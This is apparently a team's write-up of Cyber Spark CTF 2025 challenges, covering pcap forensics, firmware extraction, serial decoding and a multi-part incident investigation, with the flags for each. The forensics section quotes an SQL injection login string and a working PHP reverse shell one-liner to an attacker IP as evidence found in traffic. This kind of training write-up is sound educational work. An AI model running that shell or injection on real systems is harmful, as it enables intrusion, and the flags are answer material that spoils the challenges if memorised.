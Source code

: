 ## 🚁 Cyber Spark CTF 2025 – Challenge Writeups

These are a few writeups I remember and found fun at **CyberSpark**, where my team **chmoula** proudly took **first place** 🏆!

### 🥇 1st Place

---

### 🔐 Signal for Sale

Upon analyzing the provided `traffic.pcapng` file in **Wireshark**, we spot a suspicious email-based conversation that hints at a covert transaction. One party requests a sample of the "product", and shortly after, a file named `dump.zip` is transferred.

**Steps:**

1. Export `dump.zip` from the capture (via HTTP or other relevant protocol).
2. Extract the archive and examine its contents: two `.debian` files.
3. The files are identified as:

   ```
   SMTP mail, Unicode text, UTF-8 text, with very long lines
   ```
4. One of the `.debian` files contains a **Base64-encoded image**.
5. Decode and save it as an image file (e.g., `.jpg`).
6. Calculate the **MD5 hash** of the image to retrieve the flag.

📦 **Flag**: `Spark{<MD5 of the decoded image>}`

This image becomes the lead-in for the next challenge.

---

### 🧐 Trail of Code

From the image found earlier, we observe a **camera** with a visible model label:
🔍 `SPR-KWBXCM-25`

1. Searching the model name on GitHub reveals:
   [github.com/BenMoussa25/SPR-KWBXCM-25](https://github.com/BenMoussa25/SPR-KWBXCM-25)

2. Download `firmware.bin` from the repository.

3. Run `binwalk firmware.bin` to analyze its contents:

   ```
   SquashFS filesystem, zImage, LZ4 data, certificates, and POSIX tar
   ```

4. Extract the filesystem:

   ```bash
   binwalk -e firmware.bin
   ```

5. Navigate to the extracted files and locate:

   ```
   app_settings.json
   ```

6. The **last line** of the config file contains the second flag.

🎯 **Flag**: `Spark{F1rmW4R3_B4S1C5_H1dd3n_S3Cr3t5}`

---

### 💬 DiscordBadyyyyy

In this challenge, we encounter a Discord bot that responds to the command `!flag`, but only if the user has the role **"hacker"**.

Attempts to assign the role directly within the original server were unsuccessful.

Instead, a creative workaround was used:

1. Extract the **bot ID** from the original server.
2. Add the bot to a **personal Discord server**.
3. Assign the **"hacker"** role manually to the user.
4. Execute the `!flag` command again.

This time, it responds with the flag.

🔑 **Flag**: `Spark{G00d_j0B_H4cker}`

---

### 🔹 Hardware: Logic

A physical device was emitting noise on **pins 3, 5, and 7**. Using a **logic analyzer**, signal traces were captured simultaneously on these three channels.

The challenge was to **identify the correct baud rate** for each channel in order to decode the serial data.

Once the correct baud rates were found, decoding the captured signals revealed the flag.

---

### ⛓️ Hardware: Chain

A `.sal` capture file was provided. It contained a serial signal that, once decoded with the right **baud rate**, revealed a link to a `task.vhdl` file.

This VHDL file defines a multiplexer `Mux_16vers1` which selects 8-bit slices from a 128-bit `Flag_bin` input, depending on the value of `Sel`.

It also contains a hint:

```vhdl
-- Hello hacker I run this code with those select values 
-- [0000,1110,1111,1101,1100,0011,0010,0100,0101,0110,0111,1001,1011,1010,1000,0001]
-- And i get this output
-- H&__V_L!wTf4trUD
```

By mapping each output character to the corresponding segment of `Flag_bin`, the original 128-bit flag can be reconstructed in the correct order:

| Sel  | Bits       | Position | Char |
| ---- | ---------- | -------- | ---- |
| 1000 | 127 .. 120 | 0        | U    |
| 1001 | 119 .. 112 | 1        | 4    |
| 1010 | 111 .. 104 | 2        | r    |
| 1011 | 103 .. 96  | 3        | t    |
| 1111 | 95 .. 88   | 4        | \_   |
| 1110 | 87 .. 80   | 5        | &    |
| 1101 | 79 .. 72   | 6        | \_   |
| 1100 | 71 .. 64   | 7        | V    |
| 0000 | 63 .. 56   | 8        | H    |
| 0001 | 55 .. 48   | 9        | D    |
| 0010 | 47 .. 40   | 10       | L    |
| 0011 | 39 .. 32   | 11       | \_   |
| 0111 | 31 .. 24   | 12       | f    |
| 0110 | 23 .. 16   | 13       | T    |
| 0101 | 15 .. 8    | 14       | w    |
| 0100 | 7 .. 0     | 15       | !    |

Reading the flag from MSB to LSB:

**Flag**: `Spark{U4rt_&_VHDL_fTw!}`

---

### 🏢 SecureCorp (9-Part Forensics Challenge)

#### 🧾 Part 1: First Registered Credentials

By filtering **POST requests** in Wireshark and searching for "register", we find:

```
username=cyberspark-user&password=superrandompwd
```

✅ **Flag**: `Spark{cyberspark-user_superrandompwd}`

#### 🌐 Part 2: Attacker IP Address

Using the previous packet, we identify the source IP:
✅ **Flag**: `Spark{192.168.111.128}`

#### 🔎 Part 3: Scanning Tool

Lots of noisy requests to various routes suggest usage of a directory scanner. The User-Agent or pattern confirms:
✅ **Flag**: `Spark{gobuster}`

#### 🔓 Part 4: Web Vulnerability

POST to login reveals:

```
password=' OR 1=1 --
```

✅ **Flag**: `Spark{SQLi}`

#### 💥 Part 5: Failed Reverse Shells and Port

Filtering requests to `/admin_panel` reveals multiple reverse shell attempts. 7 of them fail, and one succeeds on port **4765**.
✅ **Flag**: `Spark{7_4765}`

#### 🐚 Part 6: Working Reverse Shell SHA256

Decode the payload:

```
php -r '$sock=fsockopen("192.168.111.128",4765);shell_exec("bash <&3 >&3 2>&3");'
```

Calculate its SHA256.
✅ **Flag**: `Spark{<sha256_of_payload>}`

#### 📡 Part 7: Data Exfiltration Protocol

Payloads in ICMP packets indicate data smuggling using that protocol.
✅ **Flag**: `Spark{icmp}`

#### 🔐 Part 8: File Decryption

Extracted all ICMP payloads with `tshark`, decoded from hex to base64, then XORed with key:

```
SUPER_DUPER__SECRET_k3y_so_I_dont_f0rg33t
```

Recovered file: `vault.bin`, SHA256 gives the flag.
✅ **Flag**: `Spark{<sha256_of_vault>}`

#### 🧠 Part 9: Vault Analysis

The `vault.bin` was a **KeePass 1.x** database. Using `keepass2john` + `john`, password `1234567890` was recovered.

Credentials gave access to **Pastebin** and **Codeforces**. Final hint on Codeforces led to a **failed submission** containing the last flag.


---
